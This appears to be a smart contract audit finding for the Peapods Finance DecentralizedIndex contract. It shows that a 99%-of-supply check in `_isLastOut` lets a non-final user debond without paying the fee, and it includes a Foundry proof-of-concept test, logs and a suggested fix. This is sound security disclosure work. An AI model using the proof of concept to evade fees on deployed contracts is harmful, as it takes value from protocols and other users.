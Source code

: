 Atomic Syrup Leopard

Medium

# Incorrect logic of `_isLastOut` function

### Summary

The `_isLastOut` function is to check if the user is the last one out. But owning more than 99% of `_totalSupply` and being the last user are not equal logic.
Due to the incorrect logic of `_isLastOut` function, user who is not the last user, doesn't pay the debond fee..

### Root Cause

In [`_isLastOut`](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/DecentralizedIndex.sol#L281-L283) function,  check if the user is the last one out, is whether user owns more than 99% of `_totalSupply`.

User can own more than 90% of the pod tokens even if there are other users who can `debond`.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Impact

There are cases where the debond fee is not paid even if user isn't the last out one.

### Attack Path

The following scenario shows that the logic of `_isLastOut` is incorrect.

bondFee = 1%, deBondFee = 1%, burnFee = 10%
1. Alice bonds 1e18
    totalSupply = 1e18 (Alice is the first in so no fee)
2. Bob bonds 1000e18
    Bob balance is 1000e18 * 99% = 990e18, 
    burnAmount = 1000e18 * 1% * 10% = 1e18
    totalSupply = 1e18 + 1000e18 - burnAmount = 1000e18
3. If Bob debonds with his total balance, `_isLastOut` function returns `true`
    Bob balance = 990e18 >= totalSupply * 99 / 100 = 990e18
4. Bob is not the last out one because Alice is left, but Bob debonds with no debondFee.
    totalSupply = 1000e18 - bob_balance = 10e18

This scenario is written on PoC and the last `totalSupply` is 10e18. This means Bob is recognized as the last out one.

### PoC

```solidity
    function setUp() public override {
        super.setUp();
        peas = PEAS(0x02f92800F57BCD74066F5709F1Daa1A4302Df875);
        twapUtils = new V3TwapUtilities();
        rewardsWhitelist = new RewardsWhitelist();
        dexAdapter = new UniswapDexAdapter(
            twapUtils,
            0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D, // Uniswap V2 Router
            0x68b3465833fb72A70ecDF485E0e4C7bD8665Fc45, // Uniswap SwapRouter02
            false
        );
        IDecentralizedIndex.Config memory _c;
        IDecentralizedIndex.Fees memory _f;
        _f.bond = 100;
        _f.debond = 100;
        _f.burn = 1000;
        address[] memory _t = new address[](1);
        _t[0] = address(dai);
        uint256[] memory _w = new uint256[](1);
        _w[0] = 100;
        address _pod = _createPod(
            "Test",
            "pTEST",
            _c,
            _f,
            _t,
            _w,
            address(0),
            false,
            abi.encode(
                dai,
                address(peas),
                0x6B175474E89094C44Da98b954EedeAC495271d0F,
                0x7d544DD34ABbE24C8832db27820Ff53C151e949b,
                rewardsWhitelist,
                0x024ff47D552cB222b265D68C7aeB26E586D5229D,
                dexAdapter
            )
        );
        pod = WeightedIndex(payable(_pod));

        flashMintRecipient = new MockFlashMintRecipient();

        // Initial token setup for test users
        deal(address(peas), address(this), bondAmt * 100);
        deal(dai, address(this), 5 * 10e18);

    }

    function test_poc_bond(address user, uint256 amount) public {
        vm.startPrank(user);
        IERC20(dai).approve(address(pod), type(uint256).max);
        pod.bond(address(dai), amount, 0);
        vm.stopPrank();
    }

    function test_poc_debond(address user, uint256 amount) public {

        if(amount == 0) amount = pod.balanceOf(user);
        address[] memory _n1;
        uint8[] memory _n2;
        vm.startPrank(user);
        pod.debond(amount, _n1, _n2);
        vm.stopPrank();
    }

    function test_poc_lastOut() public {

        deal(address(dai), alice, bondAmt);
        deal(address(dai), bob, bondAmt * 1000);

        console.log("--- ALICE bond ---");
        test_poc_bond(alice, bondAmt);
        console.log("pod totalSupply before bob calls bond", pod.totalSupply());

        console.log("--- BOB bond ---");
        test_poc_bond(bob, bondAmt * 1000);

        console.log("pod balance of BOB", pod.balanceOf(bob));
        console.log("pod totalSupply after  BOB calls bond", pod.totalSupply());

        console.log("pod totalSupply before BOB calls debond", pod.totalSupply());
        test_poc_debond(bob, 0);
        console.log("pod totalSupply after  BOB calls debond", pod.totalSupply());

    }

```

> Logs:
  --- ALICE bond ---
  pod totalSupply before bob calls bond 1000000000000000000
  --- BOB bond ---
  pod balance of BOB 990000000000000000000
  pod totalSupply after  BOB calls bond 1000000000000000000000
  pod totalSupply before BOB calls debond 1000000000000000000000
  pod totalSupply after  BOB calls debond 10000000000000000000

### Mitigation

```solidity
    function _isLastOut(uint256 _debondAmount) internal view returns (bool) {
---     return _debondAmount >= (_totalSupply * 99) / 100;
+++     return (_debondAmount + balance(this) == _totalSupply) || (balance(this) == _totalSupply);
    }
```